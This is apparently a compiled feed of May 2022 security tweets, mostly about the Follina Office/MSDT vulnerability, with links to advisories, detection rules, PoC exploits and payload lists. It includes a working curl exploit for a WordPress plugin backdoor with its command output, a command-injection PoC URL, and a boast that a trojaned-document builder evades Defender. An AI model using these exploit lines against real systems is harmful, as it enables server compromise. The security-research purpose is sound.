

# EmericNasi
**https://twitter.com/EmericNasi/status/1531732180736610304 _at 2022-05-31 20:19:44_**
<blockquote>
I have successfully integrated CVE-2022-30190 ms-msdt vulnerability to MacroPack Pro. Docx format done, including trojaning existing document :) 
I am now looking at porting to xlsx format.

Note that Defender does not detect it at the moment.
#redteam https://t.co/2b4MG6Mkn1
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>19</code></td>
<td>Retweets: <code>296</code></td>
<td>Favorites: <code>1036</code></td>
</tr></table>

---

# sentinel_blue
**https://twitter.com/sentinel_blue/status/1531728261541158913 _at 2022-05-31 20:04:10_**
<blockquote>
Sharing our #MicrosoftSentinel detections and alerts for CVE-2022-30190 #follina - In this repo, you'll find alerts and queries to detect/hunt for exploitation of this remote code execution vulnerability.

Happy hunting in your #soc!

https://t.co/UdrkmLa5rX
</blockquote>

* https://github.com/sentinelblue/CVE-2022-30190

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# USCERT_gov
**https://twitter.com/USCERT_gov/status/1531713602050486272 _at 2022-05-31 19:05:55_**
<blockquote>
Microsoft has released workaround guidance for the "Follina" RCE vulnerability (CVE-2022-30190) affecting the MSDT. According to Microsoft, this vulnerability is being exploited in the wild. Apply workaround now. Read more at https://t.co/bqYrsLB3im. #Cybersecurity #InfoSec
</blockquote>

* https://go.usa.gov/xJTET

<table><tr>
<td>Quotes: <code>11</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>152</code></td>
<td>Favorites: <code>205</code></td>
</tr></table>

---

# BleepinComputer
**https://twitter.com/BleepinComputer/status/1531702106658332673 _at 2022-05-31 18:20:14_**
<blockquote>
@serghei CISA urges admins and users to apply workarounds for this actively exploited zero-day (CVE-2022-30190 aka Follina) in the Windows Microsoft Support Diagnostic Tool (MSDT).

https://t.co/uOttTL4zVa https://t.co/aWO4SSqCMQ
</blockquote>

* https://www.cisa.gov/uscert/ncas/current-activity/2022/05/31/microsoft-releases-workaround-guidance-msdt-follina-vulnerability

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>38</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---

# ov3rflow1
**https://twitter.com/ov3rflow1/status/1531698889014771712 _at 2022-05-31 18:07:27_**
<blockquote>
CVE-2022-30190 - Microsoft Windows Support Diagnostic Tool RCE https://t.co/rDOmmZY0sN
#PoC #Exploit #follina https://t.co/F1DINMcrnm
</blockquote>

* https://github.com/NafisiAslH/KnowledgeSharing/tree/main/CyberSecurity/Web/CVEs/CVE-2022/CVE-2022-30190

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>6</code></td>
<td>Favorites: <code>9</code></td>
</tr></table>

---

# clintgibler
**https://twitter.com/clintgibler/status/1531651716852158464 _at 2022-05-31 15:00:00_**
<blockquote>
💡Damn Vulnerable Web Sockets Walkthrough

Up your testing skillz

Brute forcing the login, CSRF, file inclusion, error and blind SQL injection, and stored XSS

Source: https://t.co/NT5ZYFCCMY

#bugbountytips #bugbounty

https://t.co/RAAZe77S4Y
</blockquote>

* https://github.com/interference-security/DVWS
* https://mmmds.pl/Damn-Vulnerable-Web-Sockets-walkthrough/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>63</code></td>
</tr></table>

---

# _bughunter
**https://twitter.com/_bughunter/status/1531644398160818177 _at 2022-05-31 14:30:55_**
<blockquote>
Top 25 Parameters for common web bugs 🔥🔥

XSS - RCE - SSRF - SQLI - LFI - Open Redirect
Definitely be on the lookout for these.

https://t.co/8X5ZJBYLaZ
#bugbountytips #bugbountytip #bugbounty
</blockquote>

* https://github.com/lutfumertceylan/top25-parameter

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>84</code></td>
<td>Favorites: <code>161</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1531570613143453702 _at 2022-05-31 09:37:44_**
<blockquote>
Microsoft shares guidance on that new Office zero-day, now tracked as CVE-2022-30190

https://t.co/OwAqmtLzQ4
</blockquote>

* https://msrc-blog.microsoft.com/2022/05/30/guidance-for-cve-2022-30190-microsoft-support-diagnostic-tool-vulnerability/

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>82</code></td>
<td>Favorites: <code>124</code></td>
</tr></table>

---

# KlezVirus
**https://twitter.com/KlezVirus/status/1531560719577120768 _at 2022-05-31 08:58:25_**
<blockquote>
Given all the fuzz about it, I've just updated https://t.co/1Z8XI3dF2S
to produce the DOCX and RTF payloads for triggering CVE-2022-30190 (aka Follina)
</blockquote>

* https://github.com/klezVirus/CVE-2021-40444/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>108</code></td>
<td>Favorites: <code>248</code></td>
</tr></table>

---

# BaoshengbinCumt
**https://twitter.com/BaoshengbinCumt/status/1531473162701258753 _at 2022-05-31 03:10:30_**
<blockquote>
#Follina #CVE #Exploit #CVE-2022-30190 #threathunting #threatintelligence 
Attackers tested this 0day in October 2021.
39c15fecc73df9e62e0ffea3ead28b316917886ca06a099a7d825f8495c97e2e https://t.co/8Q54boV1fo
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>21</code></td>
<td>Favorites: <code>53</code></td>
</tr></table>

---

# TodayCyberNews
**https://twitter.com/TodayCyberNews/status/1531463500068818945 _at 2022-05-31 02:32:06_**
<blockquote>
⚔️ List of Top 25 parameters for finding:

- XSS
- SSRF
- LFI
- SQLi
- RCE
- Open Redirects

https://t.co/4pVBZWBugH

👀 Useful for fuzzing.

 #infosec #cybsersecurity #redteam #pentesting #bugbounty #bugbountytips
</blockquote>

* https://github.com/lutfumertceylan/top25-parameter/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>43</code></td>
<td>Favorites: <code>105</code></td>
</tr></table>

---

# ShadowChasing1
**https://twitter.com/ShadowChasing1/status/1531432880999526400 _at 2022-05-31 00:30:26_**
<blockquote>
our leader(@CrazymanArmy) hunt the exp of Microsoft Windows Support Diagnostic Tool (MSDT) Remote Code Execution Vulnerability Now it assigned to CVE-2022-30190
More detail:
https://t.co/ccKZVbkrtX https://t.co/78RIY7sKCU
</blockquote>

* https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2022-30190

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>27</code></td>
<td>Favorites: <code>59</code></td>
</tr></table>

---

# holisticinfosec
**https://twitter.com/holisticinfosec/status/1531424547638943744 _at 2022-05-30 23:57:19_**
<blockquote>
CVE-2022-30190: Microsoft Support Diagnostic Tool (MSDT) in Windows vuln. An RCE vuln exists when MSDT is called via the URL protocol from an app such as Word. Successfully exploited it allows running arbitrary code with the privileges of the calling app. https://t.co/EPWhMBuiO2
</blockquote>

* https://msrc-blog.microsoft.com/2022/05/30/guidance-for-cve-2022-30190-microsoft-support-diagnostic-tool-vulnerability/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>28</code></td>
<td>Favorites: <code>36</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1531395235146002433 _at 2022-05-30 22:00:50_**
<blockquote>
POC to replicate the full 'Follina' Office RCE vulnerability for testing purposes

https://t.co/yhmEVbEYM1
</blockquote>

* https://github.com/chvancooten/follina.py

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>66</code></td>
<td>Favorites: <code>162</code></td>
</tr></table>

---

# xnl_h4ck3r
**https://twitter.com/xnl_h4ck3r/status/1531335601399779329 _at 2022-05-30 18:03:52_**
<blockquote>
I created a python wrapper around the amazing @KN0X55 API by @brutelogic to make life a little easier (and more colourful!) 🤘

https://t.co/jVhfXBikx0

Don't have an API key? Go to https://t.co/4tawlLl2kE and sign up!
 
Thanks to the XSS genius @rodoassis :)
#BugBounty
</blockquote>

* https://github.com/xnl-h4ck3r/knoxnl
* https://knoxss.me

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>14</code></td>
<td>Favorites: <code>41</code></td>
</tr></table>

---

# reverseame
**https://twitter.com/reverseame/status/1531309960436535301 _at 2022-05-30 16:21:59_**
<blockquote>
WSO2 RCE (CVE-2022-29464) exploit and writeup https://t.co/gL4ha5HNRe
</blockquote>

* https://github.com/hakivvi/CVE-2022-29464

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>7</code></td>
<td>Favorites: <code>6</code></td>
</tr></table>

---

# wdormann
**https://twitter.com/wdormann/status/1531258175915180033 _at 2022-05-30 12:56:13_**
<blockquote>
While there very may well be other dangerous protocols besides ms-msdt:, it's probably a good idea to unregister this protocol. Especially while this vulnerability is still unpatched!
I've never seen its use in the real world until today.
https://t.co/UHAqntUWYR
</blockquote>

* https://gist.github.com/wdormann/031962b9d388c90a518d2551be58ead7

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>91</code></td>
</tr></table>

---

# wdormann
**https://twitter.com/wdormann/status/1531250993127739392 _at 2022-05-30 12:27:40_**
<blockquote>
OK, now that I have access to a computer, let's take a look at this Office 0day that folks are talking about.
It's very similar to the MSHTML CVE-2021-40444 vul from September:
1) Use of '!' at the end of the retrieved URI
2) Size of retrieved HTML must be 4096 bytes or larger https://t.co/C2Bpuh7xHQ
</blockquote>

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>10</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>238</code></td>
<td>Favorites: <code>597</code></td>
</tr></table>

---

# chvancooten
**https://twitter.com/chvancooten/status/1531230587964608512 _at 2022-05-30 11:06:35_**
<blockquote>
Just published a quick and dirty Python script to replicate the full 'Follina' Office RCE vulnerability for (local) testing on Github. Not suitable for production use, but should help in quickly identifying exposure.
https://t.co/MPEoWOGrKl
</blockquote>

* https://github.com/chvancooten/follina.py

<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>159</code></td>
<td>Favorites: <code>452</code></td>
</tr></table>

---

# cyb3rops
**https://twitter.com/cyb3rops/status/1531154093451902978 _at 2022-05-30 06:02:38_**
<blockquote>
Thanks to @c3rb3ru5d3d53c for extending the existing #Sigma rule to cover the #Follina vulnerability while I’m on vacation 

PR
https://t.co/2jFEP14rf4

It already got merged &amp; is immediately available in the free Aurora Lite

Blog by @GossiTheDog 
https://t.co/NlmIglpW4l https://t.co/z30JDlCt2b
</blockquote>

* https://github.com/SigmaHQ/sigma/pull/3059
* https://doublepulsar.com/follina-a-microsoft-office-code-execution-vulnerability-1a47fce5629e

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>99</code></td>
<td>Favorites: <code>284</code></td>
</tr></table>

---

# HaifeiLi
**https://twitter.com/HaifeiLi/status/1531151217266569217 _at 2022-05-30 05:51:12_**
<blockquote>
My theory is that this "ms-msdt" bug was an ITW 0day at a point, following the disclosure of the ".docx loading IE engine" vector in the CVE-2021-40444 0day (which was patched in Sep. PT). Microsoft knew the attack at some point and *silently patched* it in December or January.
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>17</code></td>
<td>Favorites: <code>78</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1530967298777010178 _at 2022-05-29 17:40:22_**
<blockquote>
A New Exploit Method for CVE-2021-3560 PolicyKit Linux Privilege Escalation https://t.co/rCATMWQvzT
</blockquote>

* http://noahblog.360.cn/a-new-exploit-method-for-cve-2021-3560-policykit-linux-privilege-escalation/

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>40</code></td>
<td>Favorites: <code>95</code></td>
</tr></table>

---

# Pethuraj
**https://twitter.com/Pethuraj/status/1530773159355379712 _at 2022-05-29 04:48:56_**
<blockquote>
Agartha 🏴‍☠️  A burp extension for dynamic payload generation to detect injection flaws (RCE, LFI, SQLi)
» https://t.co/PTSOGo06bd

#cybersecurity #infosec #bugbountytips https://t.co/69rVtS5U9U
</blockquote>

* https://github.com/volkandindar/agartha

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>153</code></td>
<td>Favorites: <code>391</code></td>
</tr></table>

---

# cKure7
**https://twitter.com/cKure7/status/1530432822481149952 _at 2022-05-28 06:16:33_**
<blockquote>
■■■■■ Zero-Day: CVE-2022-29221 Proof of Concept Code.

https://t.co/QmojG4YaJO
</blockquote>

* https://github.com/sbani/CVE-2022-29221-PoC

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# TheZDIBugs
**https://twitter.com/TheZDIBugs/status/1530230445719396356 _at 2022-05-27 16:52:23_**
<blockquote>
[ZDI-22-799|CVE-2022-1802] (Pwn2Own) Mozilla Firefox Top-Level Await Prototype Pollution Remote Code Execution Vulnerability (CVSS 8.8) https://t.co/x3zo6dNdFc
</blockquote>

* https://www.zerodayinitiative.com/advisories/ZDI-22-799/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>23</code></td>
<td>Favorites: <code>71</code></td>
</tr></table>

---

# TheZDIBugs
**https://twitter.com/TheZDIBugs/status/1530230444490477568 _at 2022-05-27 16:52:22_**
<blockquote>
[ZDI-22-798|CVE-2022-1529] (Pwn2Own) Mozilla Firefox Improper Input Validation Sandbox Escape Vulnerability (CVSS 7.8) https://t.co/qMe3O1nexE
</blockquote>

* https://www.zerodayinitiative.com/advisories/ZDI-22-798/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>61</code></td>
</tr></table>

---

# phithon_xg
**https://twitter.com/phithon_xg/status/1530168202008743937 _at 2022-05-27 12:45:03_**
<blockquote>
weekend study:

A New Exploit Method for CVE-2021-3560 PolicyKit Linux Privilege Escalation https://t.co/iKYgPHdXdd
</blockquote>

* http://noahblog.360.cn/a-new-exploit-method-for-cve-2021-3560-policykit-linux-privilege-escalation-en/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>50</code></td>
<td>Favorites: <code>143</code></td>
</tr></table>

---

# CodeColorist
**https://twitter.com/CodeColorist/status/1530151391410409473 _at 2022-05-27 11:38:15_**
<blockquote>
New exploit strategy for Polkit CVE-2021-3560 by @ykco_z https://t.co/bW739YddWF
</blockquote>

* http://noahblog.360.cn/a-new-exploit-method-for-cve-2021-3560-policykit-linux-privilege-escalation-en/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>61</code></td>
</tr></table>

---

# 3ackd0or
**https://twitter.com/3ackd0or/status/1529955628650725378 _at 2022-05-26 22:40:21_**
<blockquote>
#POC for CVE-2022-22972 affecting #VMware Workspace ONE, #vIDM, and #vRealize Automation 7.6 #Security #0day #BugBounty #vulnerabilities #CyberSecurity #infosec #informationsecurity #infosecurity #cyberattacks #ThreatHunting https://t.co/WdWNsW1tY6
</blockquote>

* https://github.com/horizon3ai/CVE-2022-22972

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>6</code></td>
<td>Favorites: <code>3</code></td>
</tr></table>

---

# zapstiko
**https://twitter.com/zapstiko/status/1529694316288872448 _at 2022-05-26 05:22:00_**
<blockquote>
🎯 SQL Injection Payload List
#bugbountytips #bugbounty #sqli https://t.co/BvZVI3pdhv
</blockquote>

* https://github.com/payloadbox/sql-injection-payload-list

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>97</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1529694086193508353 _at 2022-05-26 05:21:05_**
<blockquote>
CVE-2022-1609 WordPress Weblizar  Backdoor

$ curl -s -d 'blowfish=1' -d "blowf=system('id');" 'http://localhost:8888/wp-json/am-member/license'

uid=33(www-data) gid=33(www-data) groups=33(www-data)
#bugbounty #bugbountytips #nday
</blockquote>

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>13</code></td>
<td>Retweets: <code>301</code></td>
<td>Favorites: <code>836</code></td>
</tr></table>

---

# _bughunter
**https://twitter.com/_bughunter/status/1529478208856510464 _at 2022-05-25 15:03:15_**
<blockquote>
SQL Injection Payload List 🔥🔥
Even contains explanation for the attack and types of sql injection, Get started learning ✍️✍️
https://t.co/xPTMYwyjZo
#bugbountytips #bugbountytip #bugbounty
</blockquote>

* https://github.com/payloadbox/sql-injection-payload-list

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>77</code></td>
<td>Favorites: <code>154</code></td>
</tr></table>

---

# wuhan005
**https://twitter.com/wuhan005/status/1529287377432498176 _at 2022-05-25 02:24:58_**
<blockquote>
Found a #Gitea RCE (CVE-2022-30781) in repository migration with @Li4n01.
Detailed article will be published soon.

Here is the exploit：https://t.co/lN6vZQN2pN
</blockquote>

* https://github.com/wuhan005/CVE-2022-30781

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>9</code></td>
<td>Favorites: <code>29</code></td>
</tr></table>

---

# 404death
**https://twitter.com/404death/status/1529161614989340673 _at 2022-05-24 18:05:14_**
<blockquote>
Windows Local Privilege Escalation via CdpSvc service (Writeable SYSTEM path Dll search order Hijacking)

https://t.co/Zzq9JD2n7n https://t.co/xzZ4kyLe4g
</blockquote>

* https://github.com/sailay1996/CdpSvcLPE

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>127</code></td>
<td>Favorites: <code>348</code></td>
</tr></table>

---

# _0xffd
**https://twitter.com/_0xffd/status/1529073245152059395 _at 2022-05-24 12:14:05_**
<blockquote>
Exploit for CVE-2019-13720, Chrome RCE.
[Chrome 76 - 78.0.3904.70]

https://t.co/gJcJCF4tVt
</blockquote>

* https://github.com/forrest-orr/WizardOpium/blob/main/Forrest_Orr_CVE-2019-13720_64-bit.html

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---

# hakluke
**https://twitter.com/hakluke/status/1528899615130779648 _at 2022-05-24 00:44:08_**
<blockquote>
@ADITYASHENDE17 Payloads copy pasted from https://t.co/54bTkKb9rV
</blockquote>

* https://github.com/payloadbox/sql-injection-payload-list

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>70</code></td>
<td>Favorites: <code>310</code></td>
</tr></table>

---

# tbbhunter
**https://twitter.com/tbbhunter/status/1528839173116919810 _at 2022-05-23 20:43:57_**
<blockquote>
FinDOM-XSS is a tool that allows you to finding for possible and/ potential DOM based XSS vulnerability in a fast manner.

https://t.co/8IiWZziHPa
</blockquote>

* https://github.com/dwisiswant0/findom-xss

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>125</code></td>
</tr></table>

---

# dec0ne
**https://twitter.com/dec0ne/status/1528777101469442057 _at 2022-05-23 16:37:18_**
<blockquote>
Just added ADCS Relay support for #KrbRelayUp, No need for lack of LDAP Signing anymore.
https://t.co/gyTmaITNin
Demo in second tweet.
I want to thank @ITAY_YASHAR for all his help and of course @harmj0y @tifkin_  and @_batsec_ (ADCSPwn) for their amazing research on ADCS Relay.
</blockquote>

* https://github.com/Dec0ne/KrbRelayUp

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>107</code></td>
<td>Favorites: <code>301</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1528742287072980992 _at 2022-05-23 14:18:58_**
<blockquote>
SDT-CW3B1 1.1.0 - OS Command Injection CVE-2021-46422

poc:hxxp://x.x.x.x/cgi-bin/admin.cgi?Command=sysCommand&amp;Cmd=id
#0day #nday #CVE #bugbountytips #bugbounty https://t.co/PPJZZ1EStb
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>15</code></td>
<td>Retweets: <code>154</code></td>
<td>Favorites: <code>465</code></td>
</tr></table>

---

# pythontrending
**https://twitter.com/pythontrending/status/1528697136929439744 _at 2022-05-23 11:19:33_**
<blockquote>
CVE-2022-26133 - Atlassian Bitbucket Data Center RCE(CVE-2022-26133) verification and exploitation. https://t.co/E6dAxwpaPB
</blockquote>

* http://github.com/Pear1y/CVE-2022-26133

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# Donzanoid
**https://twitter.com/Donzanoid/status/1528457290067677185 _at 2022-05-22 19:26:29_**
<blockquote>
A guarded ~memcpy would have avoided 1/3 cases of recorded RCE exploits due to OOB writes. The memcpy simply knows how the allocator manages memory and can detect read/write overflows. https://t.co/R2RFb8WDLN
</blockquote>

* https://github.com/microsoft/snmalloc/blob/main/docs/security/GuardedMemcpy.md

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>7</code></td>
<td>Favorites: <code>48</code></td>
</tr></table>

---

# huntrHacktivity
**https://twitter.com/huntrHacktivity/status/1528421498544963591 _at 2022-05-22 17:04:16_**
<blockquote>
Unrestricted Upload of File with Dangerous Type in https://t.co/eiDVGFMWMj (CVE-2022-1811) reported by ninj4c0d3r - Patch: https://t.co/JulhC0NPfJ
https://t.co/0qs8L7v5AO #bugbounty #infosec #opensource
</blockquote>

* https://github.com/publify/publify
* https://github.com/publify/publify/commit/0fb6b027fbaf17f6a6551f2148482a03eac12927
* https://huntr.dev/bounties/4d97f665-c9f1-4c38-b774-692255a7c44c/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>4</code></td>
</tr></table>

---

# bad_packets
**https://twitter.com/bad_packets/status/1528272861118418944 _at 2022-05-22 07:13:38_**
<blockquote>
Mass scanning activity detected from 58.62.36.13 (🇨🇳) and 58.62.36.17 (🇨🇳) targeting F5 BIG-IP iControl REST endpoints vulnerable to unauthenticated remote code execution (CVE-2022-1388).
#threatintel
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>43</code></td>
<td>Favorites: <code>103</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1528226897984880640 _at 2022-05-22 04:11:00_**
<blockquote>
Oracle issues emergency patch for CVE-2022-21500, a pre-auth RCE in Oracle E-Business Suite

"If successfully exploited, this vulnerability may result in the exposure of personally identifiable information (PII)."

https://t.co/vOLnRYFsRg
</blockquote>

* https://www.oracle.com/security-alerts/alert-cve-2022-21500.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>64</code></td>
</tr></table>

---

# a13xp0p0v
**https://twitter.com/a13xp0p0v/status/1528116251628912640 _at 2022-05-21 20:51:20_**
<blockquote>
I believe that detecting kernel vuln post-exploitation and illegal privilege escalation is impossible from inside the Linux kernel.

PoC by @wipawel demonstrates that.

My PoC exploit for CVE-2021-26708 bypassing LKRG @lkrg_org also demonstrates that: https://t.co/iZ8QRGbyhg
</blockquote>

* https://a13xp0p0v.github.io/2021/08/25/lkrg-bypass.html

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>75</code></td>
<td>Favorites: <code>181</code></td>
</tr></table>

---

# 80vul
**https://twitter.com/80vul/status/1527989628690567170 _at 2022-05-21 12:28:10_**
<blockquote>
Apache CouchDB EPMD port:4369/TCP in ZoomEye About 81,154 results (Nearly year: 81,154 results) https://t.co/MT3wk1hv8x Of course, there has been an RCE vulnerability caused by default cookies in this protocol recently (CVE-2022-24706) https://t.co/ydN1PGogwy
</blockquote>

* https://www.zoomeye.org/searchResult?q=port%3A%224369%22%20%2B%22epmd_port%22&t=all

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>39</code></td>
<td>Favorites: <code>114</code></td>
</tr></table>

---

# Ksecureteamlab
**https://twitter.com/Ksecureteamlab/status/1527985989498568706 _at 2022-05-21 12:13:43_**
<blockquote>
Mailcow CVE-2022-31245

CVE-2022-31245: RCE and Domain Admin privilege escalation for Mailcow. Including POC.

https://t.co/1yV0YB9z3y

 #RCE #AppSec #infosec #pentest #appsec #ACL #Database #securitybreach
</blockquote>

* https://github.com/ly1g3/Mailcow-CVE-2022-31245

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# Richard_S81
**https://twitter.com/Richard_S81/status/1527975840486662144 _at 2022-05-21 11:33:23_**
<blockquote>
#Hacking #CVE202222963 #JavaFramework #RCE #Malware #Vulnerability #CyberCrime #CyberAttack #CyberSecurity 
CVE-2022-22963 : PoC Spring Java Framework 0-day Remote Code Execution Vulnerability.
https://t.co/WCPcSeM95i https://t.co/DUMPT8htIX
</blockquote>

* https://github.com/darryk10/CVE-2022-22963

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>3</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1527891428201881601 _at 2022-05-21 05:57:57_**
<blockquote>
Safari WebGL XFB Use After Free Vulnerability
https://t.co/99wUvNcIhZ
</blockquote>

* https://github.com/theori-io/CVE-2022-26717-Safari-WebGL-Exploit

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>80</code></td>
</tr></table>

---

# cckuailong
**https://twitter.com/cckuailong/status/1527832317963948034 _at 2022-05-21 02:03:05_**
<blockquote>
CVE-2022-24706 CouchDB RCE 

Poc &amp; Vuln App:
https://t.co/nhHYJ1Z83T

#cve #cve2022 #pocsploit #poc https://t.co/PVq4Q78OPu
</blockquote>

* https://github.com/cckuailong/pocsploit/blob/master/modules/cves/2022/CVE-2022-24706.py

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>3</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---

# Eng_Abdull4h
**https://twitter.com/Eng_Abdull4h/status/1527721623029268488 _at 2022-05-20 18:43:13_**
<blockquote>
📍RDP Penetration Testing

NMAP
Login Brute force
Metasploit
Session hijacking
Credential dumping

🔗 https://t.co/7F0tTnpDwC https://t.co/lGZthdXOSe
</blockquote>

* https://drive.google.com/file/d/14QSfpeCo3Xr3pkXyQPs8Ao7SaVST67It/view?usp=drivesdk

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>3</code></td>
<td>Favorites: <code>45</code></td>
</tr></table>

---

# vxunderground
**https://twitter.com/vxunderground/status/1527673192696905729 _at 2022-05-20 15:30:46_**
<blockquote>
You may not like it, but this is what a real 0day looks like.

